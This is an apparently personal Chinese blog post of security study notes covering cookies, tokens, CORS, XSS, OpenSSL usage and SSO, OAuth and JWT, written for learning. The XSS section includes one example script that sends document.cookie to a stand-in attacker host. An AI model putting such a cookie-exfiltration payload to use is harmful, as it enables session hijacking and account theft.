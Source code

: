```yaml
---
title: "信息安全专栏"
date: 2023-10-26T16:17:36+08:00
categories:
- 计算机科学与技术
- 信息安全
tags:
- 信息安全
- 施工中
thumbnailImagePosition: left
thumbnailImage: /images/thumbnail/security.jpg
---
```

本文记录所有的信息安全中的加解密知识，库，实用工具。也包括鉴权、访问控制、抗抵赖相关知识。
<!--more-->
## 基础假设
1. 从系统角度来说，任何应用都是不安全的，不应被信任的，因此不应给予超过必需部分的权限和数据。
2. 任何用户操作都是不安全的，不应被信任的，对输入要进行专门的检查。

## 基础术语
1. Web
    1. Cookie：用于在客户端存储一些用户信息的**小型文本文件**。一般用于实现Session会话，是Http协议应对无状态问题的一种解决方式。
        - 分类：
            - 第一方和第三方Cookie：第一方就是当前站点页面A的域名的Cookie，第三方是当前站点页面A内的第三方页面内容B（比如一个植入广告）专用的Cookie。可以用于分析页面之间的关系，比如记录用户广告点击来源，分析行为。
            - 会话Cookie、持久Cookie、安全Cookie、HttpOnly Cookie
        - 由服务器端实现会话时，服务器端相当于成为了有状态的服务。在设计上并不好，需要考虑容灾问题。
    2. Token：经过加密处理的**一段数据**。可存储在客户端浏览器缓存、localStorage、sessionStorage。服务器上存储在数据库中。移动端设备支持更好，支持跨程序调用。安全性、可扩展性、跨域支持能力都更强，更灵活。
        - 和Cookie存在多方面差异：安全性、可扩展性、跨域支持、对服务器压力、时效性。但和Cookie并不是并列关系，Token也可以存储在Cookie中。
        - Token完全由应用管理，设计上能支持服务器的无状态服务，即在Token中保存所有必须的用户数据。
        - 分类：Access Token（标识用户身份的令牌）、Refresh Token（用于刷新用户身份标识的专用令牌）
        - 实现方式：JWT（头部.负载.签名）描述了必须的元数据/数据字段/数字签名
        - 参考：[傻傻分不清之 Cookie、Session、Token、JWT](https://juejin.cn/post/6844904034181070861)、[JSON Web Token 入门教程](https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    3. User-Agent：浏览器等客户端向Http请求头中添加的字段，用于填写客户端的系统和软件信息。
    4. 跨域：一种和鉴权相关的安全策略问题。出现在浏览器语境下，是浏览器为了用户的安全性做出的策略。其目的在于通过控制跨域请求，来避免CRSF（跨站请求伪造）和XSS（跨站脚本攻击）
        - 网页发起跨域请求，需要前端（浏览器）和后端同时支持
        - 原理：
            - 简单请求：HEAD/GET/POST且请求头信息不超过允许的字段。浏览器会在请求头中自动添加Origin字段，并填充当前域名A。服务器接收到之后决定该域名A是否允许发起该跨域请求。并填充```Allow-Control-Allow-Origin```、```Allow-Control-Allow-Credentials```、```Access-Control-Expose-Headers```等字段。
            - 非简单请求：所有的其他请求，都会先发送预检请求OPTIONS，主要是询问服务器是否支持指定的请求方法和额外的请求头字段，即```Access-Control-Request-Method/Headers```。只有服务器允许，浏览器才会发送正式请求。
        > 从原理可以看出，CORS配置对后端有一定要求，如果对Origin的检查、以及各Allow字段配置不正确，都会造成CORS漏洞。
        - XHR请求是否携带Cookies在不同浏览器上不明确，最好手动设置
        - 参考：[网页攻击 和 跨域 的相关问题梳理](https://blog.csdn.net/s18813688772/article/details/121910084)、[CORS攻击原理介绍和使用](https://cloud.tencent.com/developer/article/1728658)

## 常见攻击手段 
1. Web
    1. XSS：跨站脚本攻击。最常见的方式是在一个用户可创作内容的网站中，插入一段可执行代码，完成指定动作。
        ```html
        <script>
            // new Image().src = "http://stole.you.cookie.com/save?c=" + encodeURI(document.cookie);
        </script>
        ```
        - 应对方式：
            - 对于Cookie的窃取，可以通过在Set-Cookie头中设置HttpOnly标识，禁止页面脚本获取Cookie。但这只是最基本的，实际上仍有HttpOnly绕过手段。
            - 检查用户输入，禁止其中的脚本执行
    2. 

## OpenSSL
- 注意点
    1. OpenSSL的风格是，内部结构**不导出**，因此对于```ECDSA_SIG```、```BIGNUM```等，不能直接通过成员访问操作符```->```来获取成员。正确的方式是使用相对应的API。例如
        ```c
            // 对ASN.1的DER编码进行解码
        	ECDSA_SIG* result = d2i_ECDSA_SIG(&sig, (const unsigned char**)&derData, derlen);
            // BIGNUM也是用BN_new获取
            const BIGNUM* pr = BN_new();
            const BIGNUM* ps = BN_new();
            // 对result->r和result->s的获取
            ECDSA_SIG_get0(result, &pr, &ps);
        ```
- Windows下的编译：
    - 步骤：
        1. 安装Perl
        2. ```mkdir your-build ; cd your-build```
        3. ```perl Configure VC-WIN64A no-asm --prefix=D:\path\to\install```，生成makefile等，更多[配置说明](https://wiki.openssl.org/index.php/Compilation_and_Installation)
        4. 调用Visual Studio的Native Tools Command Prompt，执行```nmake```
        5. ```nmake install```
    - 参考：[win10 x64 visual studio 2019 编译 OpenSSL-1.1.1](https://blog.csdn.net/qiuxue110/article/details/115560240)

## 鉴权
1. 单点登录SSO（Single Sign On）：在一个多应用系统中，提供一处登录处处登录，一处登出处处登出的效果。参考[单点登录解决方案](https://cloud.tencent.com/developer/article/1636664)。
    1. Cookie：
        - 不跨域：将多个应用的Session进行共享，并将其SessionId放到Cookie中交给客户端。可以实现不跨域（不跨顶级域）前提下的单点登录。
        - 跨域：通过引入CAS（Central Authentication Service）服务器，提供SSO会话。在访问应用时，会重定向到SSO会话服务，登录并提供SSO会话的Cookie，和为应用提供的Service Ticket。应用会去CAS服务器查验Service Ticket是否有效。
    2. OAuth：一种认证授权机制，通过在服务端和客户端之间增加一个授权层，来向第三方颁发令牌。它主要是为了用来提供不同系统之间API的授权服务（A应用想调用B应用的API接口）。当然也可以用于单点登录。参考[理解OAuth 2.0](https://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html)
        - 术语：第三方应用程序（企图获得API授权的程序）、服务提供商（API提供者）、资源所有者（用户）、用户代理（浏览器）、认证服务器（API提供者用于执行OAuth）、资源服务器（API提供者内部）
        - 流程：第三方应用程序访问授权层，在资源所有者控制下授权令牌（可指定范围和有效期），服务提供商根据令牌想第三方应用程序提供服务。
        - 模式：授权码模式（第三方服务器-服务提供商服务器）、简化模式（用户代理-服务器提供商服务器）、密码模式（直接给第三方密码）、客户端模式（第三方把自己视作用户）
    3. JWT（JSON Web Token）：JWT本身只是一种Token的实现方式，但同时这种方式能够很好的支持单点登录。用户在登录之后，会获取到认证服务生成的JWT，每次访问均携带JWT，由网关等对JWT进行核验。由于JWT本身并不一定加密（只是一定会做签名），所以需要搭配https，总之应当尽量保证JWT不被泄露。
